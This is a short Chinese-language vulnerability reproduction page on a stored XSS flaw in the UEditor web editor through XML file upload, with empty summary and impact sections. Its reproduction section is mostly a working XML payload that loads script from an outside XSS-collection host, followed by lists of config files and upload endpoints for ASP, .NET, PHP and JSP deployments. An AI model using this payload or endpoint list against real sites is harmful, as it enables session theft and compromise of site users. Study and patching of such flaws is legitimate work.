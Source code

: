 ueditor 允许xml上传的xss漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    <html>
    <head></head>
    <body>
    <something:script src="</tExtArEa>'"><sCRiPt sRC=http://xssye.com/tVbS></sCrIpT>" xmlns:something="xss平台地址">1234</something:script>
    </body>
    </html>

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

    /ueditor/asp/config.json
    /ueditor/net/config.json
    /ueditor/php/config.json
    /ueditor/jsp/config.json

上传文件路径

    /ueditor/index.html

    /ueditor/asp/controller.asp?action=uploadimage
    /ueditor/asp/controller.asp?action=uploadfile

    /ueditor/net/controller.ashx?action=uploadimage
    /ueditor/net/controller.ashx?action=uploadfile

    /ueditor/php/controller.php?action=uploadfile
    /ueditor/php/controller.php?action=uploadimage

    /ueditor/jsp/controller.jsp?action=uploadfile
    /ueditor/jsp/controller.jsp?action=uploadimag
